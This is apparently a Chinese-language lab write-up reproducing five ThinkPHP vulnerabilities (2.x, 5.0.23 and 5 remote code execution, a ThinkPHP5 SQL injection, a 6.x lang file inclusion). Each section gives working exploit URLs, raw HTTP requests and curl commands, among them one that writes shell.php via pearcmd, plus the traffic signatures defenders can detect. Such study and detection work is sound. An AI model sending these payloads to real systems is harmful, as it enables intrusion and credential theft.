## 2-rce
### 介绍
ThinkPHP 是一个在中国被广泛使用的 PHP 框架。ThinkPHP 2.x 版本中存在一个远程代码执行漏洞。

在 ThinkPHP 2.x 版本中，框架使用 `preg_replace` 的 `/e` 模式匹配路由：
```php
$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
```
这个实现导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。值得注意的是，ThinkPHP 3.0 版本在 Lite 模式下也存在这个漏洞，因为这个问题在该模式下并未被修复。
### 漏洞复现

通过 URL 参数注入 PHP 代码来利用此漏洞。直接访问 `http://your-ip:8080/index.php?s=/index/index/name/${@phpinfo()}`，服务器将执行 `phpinfo()` 函数，证明远程代码执行漏洞利用成功：

### 流量特征

**特征**：==?s=/index/index/name/${@命令}==
## 5.0.23-rce
### 介绍

ThinkPHP 是一款运用极广的 PHP 开发框架。其 5.0.23 以前的版本中，获取 method 的方法中没有正确处理方法名，导致攻击者可以调用 Request 类任意方法并构造利用链，从而导致远程代码执行漏洞。
### 漏洞复现

**构造数据包**：
```http
POST /index.php?s=captcha HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```
**用curl发起post请求**
```bash
curl -i --compressed -X POST 'http://192.168.230.143:8080/index.php?s=captcha' \
  -H 'Host: localhost' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en' \
  -H 'User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)' \
  -H 'Connection: close' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw '_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id'
```
**命令执行成功**

### 流量分析

**特征**：==?s=captcha为参数的POST请求==
**日志**

## 5-rce

### 介绍

ThinkPHP 是一款运用极广的 PHP 开发框架。其版本 5 中，由于没有正确处理控制器名，导致在网站没有开启强制路由的情况下（即默认情况下）可以执行任意方法，从而导致远程命令执行漏洞。
### 漏洞复现

**请求**
```http
http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
```
**curl发送该请求**
```bash
curl -i --compressed "http://your-ip:8080/index.php?s=/Index/%5Cthink%5Capp/invokefunction&function=call_user_func_array&vars\[0\]=phpinfo&vars\[1\]\[\]=-1"
```

### 流量分析

**特征**：一大堆函数和参数数组的调用
**日志**


## in-sqlinjection

### 介绍

ThinkPHP5 SQL 注入漏洞 && 敏感信息泄露
### 漏洞复现

```http
http://your-ip/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1
```
**curl**
```bash
curl -i --compressed "http://your-ip/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1"
```
这是一个比较鸡肋的 SQL 注入漏洞。但通过 DEBUG 页面，我们找到了数据库的账号、密码：

### 流量分析

**特征**：==sql报错函数与concat等sql函数==
**日志**


## lang-rce

### 介绍

ThinkPHP 是一个在中国使用较多的 PHP 框架。在其 6.0.13 版本及以前，存在一处本地文件包含漏洞。当多语言特性被开启时，攻击者可以使用 `lang` 参数来包含任意 PHP 文件。
虽然只能包含本地 PHP 文件，但在开启了 `register_argc_argv` 且安装了 pcel/pear 的环境下，可以包含 `/usr/local/lib/php/pearcmd.php` 并写入任意文件。
### 漏洞复现

首先，ThinkPHP 多语言特性不是默认开启的，所以我们可以尝试包含 `public/index.php` 文件来确认文件包含漏洞是否存在：**返回500说明服务端出问题了，但这个文件是存在的**

文件包含漏洞存在的情况下还需要服务器满足下面两个条件才能**利用**：
1. PHP 环境开启了 `register_argc_argv`
2. PHP 环境安装了 pcel/pear
Docker 默认的 PHP 环境恰好满足上述条件，所以我们可以直接使用下面这个数据包来在写 `shell.php` 文件：
```http
GET /?+config-create+/&lang=../../../../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+shell.php HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

**现在是没有phpinfo的后面执行了就有了**
**curl**
```bash
curl -i "http://192.168.230.143:8080/index.php?+config-create+/&lang=../../../../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+shell.php" \
  -H "Host: 192.168.230.143:8080" \
  -H "User-Agent: Mozilla/5.0" \
  --compressed
```
- 会写入shell.php文件，内容是phpinfo
	
```bash
curl -i http://192.168.230.143:8080/shell.php
```
- 访问到phpinfo文件则说明成功
	
### 流量分析

**日志**

**日志里太多异常访问了**

## 流量特征锦集

| 类型                 | 核心原因                                          | 关键前提                               | 流量特征                                                                                                      |
| ------------------ | --------------------------------------------- | ---------------------------------- | --------------------------------------------------------------------------------------------------------- |
| ThinkPHP 2.x RCE   | 路由处理使用 `preg_replace /e`，导致用户输入可能被当作 PHP 代码执行 | 受版本和运行环境影响                         | URL 的 `s` 参数中出现异常路由片段、`${...}`、`@` 等代码执行相关字符                                                              |
| ThinkPHP 5.0.x RCE | 请求方法处理不当，可调用内部方法并形成执行链                        | 需要匹配具体版本和请求条件                      | `POST` 请求访问 `s=captcha`，请求体中出现 `_method`、`__construct`、`filter[]`、`method`、`server[REQUEST_METHOD]` 等异常组合 |
| ThinkPHP 5 RCE     | 控制器和方法调用限制不足，可调用框架内部函数                        | 通常与默认路由配置有关                        | `s` 参数中出现 `\think\app\invokefunction`，同时伴随 `function`、`vars` 等嵌套参数                                        |
| ThinkPHP 5 SQL 注入  | 参数解析和 SQL 拼接处理不当                              | 数据库类型、错误回显和 DEBUG 配置会影响验证结果        | 参数中出现单引号、布尔条件、联合查询结构、`updatexml`、`extractvalue`、`concat` 等 SQL 函数或异常数组参数                                  |
| ThinkPHP 6 多语言文件包含 | `lang` 参数可控，导致本地 PHP 文件包含                     | 需要开启多语言功能；进一步利用还依赖 PHP 配置和 PEAR 环境 | 请求中出现 `lang` 参数，并伴随目录穿越编码、`php://`、`pearcmd`、`config-create` 等文件包含或文件写入相关特征                               |
- ThinkPHP 2.x：`preg_replace /e` 代码执行；
- ThinkPHP 5.0.x：请求参数处理和动态方法调用问题；
- ThinkPHP 5：控制器或框架函数调用限制不足；
- ThinkPHP 5 SQL 注入：SQL 参数处理缺陷；
- ThinkPHP 6：本地文件包含，特定环境下可进一步写文件。